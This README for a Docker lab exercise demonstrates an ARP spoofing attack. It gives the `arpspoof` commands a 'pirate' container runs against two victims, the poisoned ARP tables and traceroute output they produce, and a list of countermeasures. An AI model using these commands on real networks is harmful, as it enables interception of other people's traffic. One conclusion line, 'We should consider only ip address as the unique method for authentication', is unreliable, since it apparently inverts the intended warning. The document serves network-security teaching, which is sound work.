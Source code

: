 # Spoofing

## Content
- [Spoofing](#spoofing)
  - [Content](#content)
  - [Work Environment](#work-environment)
  - [Work Process](#work-process)
    - [arpspoof](#arpspoof)
    - [How to run](#how-to-run)
    - [Result](#result)
  - [Interpretation](#interpretation)
  - [Conclusion](#conclusion)

## Work Environment
The work environment is consisted of:
- three services
  - machine_1:
    - purpose: connect to machine_2, preview traceroute
    - tools: `traceroute`
    - ip: 10.10.10.2
  - machine_2:
    - ip: 10.10.10.3
  - pirate:
    - purpose: execute Arp Spoofing attack
    - tools: `arpspoof`
    - ip: 10.10.10.4
- log file
  - `./log/output.log`
- environment configuration in `.env` contains:
  - ip addresses configuration
  - commands to execute for machine_1 and pirate
  - paths for script for log file and script file
- `goal.bash`: script to execute machine_1 and pirate commands
- `docker-compose.yml` configuration
  

## Work Process
### arpspoof
arpspoof mounts an ARP spoofing attack against a host on the local network. This results in traffic from the attacked host to the default gateway (and all non-LAN hosts) and back going through the local computer and can thus be captured with tools like Wireshark. arpspoof will also forward this traffic, so Windows does NOT have to be configured as a router. [github/alandau]

### How to run
- execute docker-compose: `docker-compose up`
- in both `pirate` and `machine_1`, we execute `goal.bash` wich will execute the sequence of commands inside `.env` file
  - `docker exec -it machine_1 goal.bash`
  - `docker exec -it pirate goal.bash`


### Result
We'll have as a result:
- machine_1
``` bash
>>> press <enter> to execute (traceroute $IP_MACHINE_2)
traceroute to 10.10.10.3 (10.10.10.3), 30 hops max, 60 byte packets
 1  machine_2.exercice_3_network_ip (10.10.10.3)  0.187 ms  0.060 ms  0.061 ms
>>> press <enter> to execute (arp -a)
machine_2.exercice_3_network_ip (10.10.10.3) at 02:42:0a:0a:0a:03 [ether] on eth0
```
- pirate
``` bash
>>> press <enter> to execute (arpspoof -t $IP_MACHINE_1 $IP_MACHINE_2)
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at
```
- machine_1
``` bash
>>> press <enter> to execute (arp -a)
machine_2.exercice_3_network_ip (10.10.10.3) at 02:42:0a:0a:0a:04 [ether] on eth0
pirate.exercice_3_network_ip (10.10.10.4) at 02:42:0a:0a:0a:04 [ether] on eth0

>>> press <enter> to execute (traceroute $IP_MACHINE_2)
traceroute to 10.10.10.3 (10.10.10.3), 30 hops max, 60 byte packets
 1  pirate.exercice_3_network_ip (10.10.10.4)  0.120 ms  0.060 ms  0.048ms
 2  machine_2.exercice_3_network_ip (10.10.10.3)  0.079 ms  0.064 ms  0.067 ms
```
- pirate
``` bash
>>> press <enter> to execute (arpspoof -t $IP_MACHINE_2 $IP_MACHINE_1)
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
```

> full log will be stored in [./log/output.log](./log/output.log)


## Interpretation
- After `arpspoof` attack, a new line has been added to the arp table showen insde `machine_1` 
  - `pirate.exercice_3_network_ip (10.10.10.4) at 02:42:0a:0a:0a:04 [ether] on eth0`
  - The mac address of the target `machine_1` has been changed from `02:42:0a:0a:0a:03` to `02:42:0a:0a:0a:04` which is the mac adress of the pirate.
- When executing traceroute to `machine_2`, a new line has been added
  -  `1  pirate.exercice_3_network_ip (10.10.10.4)  0.120 ms  0.060 ms  0.048ms`
  -  The requesets to `machine_2` will be recieved by `pirate`
- In the end, we send `arpspoof` attack to `machine_2`




## Conclusion
- The attack may have strong impact if it is combined with `Dos` attack to prevent any probabilty of connection from the target machine we want to contact
- We should consider only ip address as the unique method for authentication.
- As counter measurment, we have to use other anti-arp solutions like:
  - DHCP snopping
  - cisco..
  - Xarp,.. 



[github/alandau]: https://github.com/alandau/arpspoof
